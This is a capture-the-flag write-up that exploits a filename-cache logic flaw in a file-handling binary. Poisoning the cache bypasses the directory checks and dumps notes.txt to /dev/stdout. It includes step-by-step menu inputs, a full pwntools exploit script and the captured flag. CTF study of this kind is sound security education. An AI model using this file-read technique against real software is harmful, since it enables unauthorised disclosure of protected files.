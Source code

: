 # Data Exfiltration System - Writeup

---

## Overview

In this CTF task, we exploit a logic flaw in a file-handling program to exfiltrate the contents of `notes.txt` by poisoning a file cache and redirecting writes to `/dev/stdout`. No memory corruption is needed just creative abuse of how filenames are cached and reused.

---

## Binary Info

```bash
$ file main
```

![Alt text](img/1.png)

```bash
$ pwn checksec main
```

## ![Alt text](img/2.png)

## Reverse Engineering

### Key Global Variables

- `FILE *open_market_file` — the current file opened for appending.
- `char *recently_closed[10]` — stores recently closed file names.
- `int recent_count` — used as an index to cycle through the cache.
- `char *open_market_name` — string of the open file's name.

### File I/O Logic

The program allows:

- Opening a file in the `markets/` directory, or directly if it was "recently closed".
- Appending a file from `hacked/`, or directly if it's "recent".
- Closing a file and storing its name in `recently_closed[]`.

### Cache Bypass

When a filename appears in `recently_closed`, the program skips all directory prefix checks and directly passes the string to `fopen()`.

---

## Vulnerability Summary

The program is vulnerable to a pointer poisoning logic flaw:

- You can close a file under a fake name, and the program will store that name as “recent”.
- The next time you open or append a file, it uses the raw string if it’s “recent”, skipping safety checks.

This allows us to:

- Read `notes.txt`
- Write to `/dev/stdout`

---

## Exfiltration Strategy (Pointer Poisoning)

We poison the internal cache so that the append operation reads from `notes.txt` and writes to `/dev/stdout`, which is the program's output (our socket).

---

### Step-by-Step Exploit

Assume a legit market file named `covenant_core` exists.

#### 1. Open `covenant_core`

```bash
> 3
Enter market name to open its file: covenant_core
Opened covenant_core at fd 3 for appending.
```

#### 2. Poison cache with `notes.txt`

```bash
> 5
Enter file name to close:     notes.txt
Enter file descriptor:        3
Closed file.
```

Now `recently_closed[0] = strdup("notes.txt")`

#### 3. Reopen `covenant_core` to get a new file descriptor

```bash
> 3
Enter market name to open its file: covenant_core
Opened covenant_core at fd 3 for appending.
```

#### 4. Poison cache with `/dev/stdout`

```bash
> 5
Enter file name to close:     /dev/stdout
Enter file descriptor:        3
Closed file.
```

Now `recently_closed[1] = strdup("/dev/stdout")`

#### 5. Open `/dev/stdout` as a market file

```bash
> 3
Enter market name to open its file: /dev/stdout
Fast open via cache!
Opened /dev/stdout at fd 3 for appending.
```

#### 6. Append `notes.txt` as a hacked file

```bash
> 4
Enter hacked file name to append: notes.txt
Fast open via cache!
```

The program will now:

- Open `notes.txt` for reading
- `fgets()` each line
- `fputs()` them into `open_market_file`, which is `/dev/stdout`

The contents of `notes.txt` are printed directly to your screen or socket.

---

## Why This Works

- The first cache entry (`notes.txt`) lets us bypass the `hacked/` directory restriction.
- The second cache entry (`/dev/stdout`) redirects output to your terminal.
- This all works within the intended menu flow, without triggering memory corruption defenses.

---

## Exploit Script

```Python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()


def open_file(name):
    io.sendlineafter(b'> ', b'3')  # Menu: Open market file
    io.sendlineafter(b'Enter market name to open its file: ', name.encode())
    io.recvuntil(b'Opened')  # Wait for success message

def close_file(name, fd):
    io.sendlineafter(b'> ', b'5')  # Menu: Close file
    io.sendlineafter(b'Enter file name to close: ', name.encode())
    io.sendlineafter(b'Enter file descriptor: ', str(fd).encode())
    io.recvuntil(b'Closed file.')

def append_hacked(name):
    io.sendlineafter(b'> ', b'4')  # Menu: Append hacked file
    io.sendlineafter(b'Enter hacked file name to append: ', name.encode())

# === Step 1: Open legit file to get valid FD ===
open_file("covenant_core")  # This gives fd 3 most likely

# === Step 2: Poison cache with "notes.txt" ===
close_file("notes.txt", 3)

# === Step 3: Reopen to get same FD ===
open_file("covenant_core")

# === Step 4: Poison cache with "/dev/stdout" ===
close_file("/dev/stdout", 3)

# === Step 5: Open "/dev/stdout" via fast cache ===
open_file("/dev/stdout")

# === Step 6: Append notes.txt to it ===
append_hacked("notes.txt")

# You should now see the content of notes.txt dumped to your screen

# Keep the connection open to read the data
io.interactive()


```

---

## Flag

```
RedPointer{r00tP@ssw0rd}
```
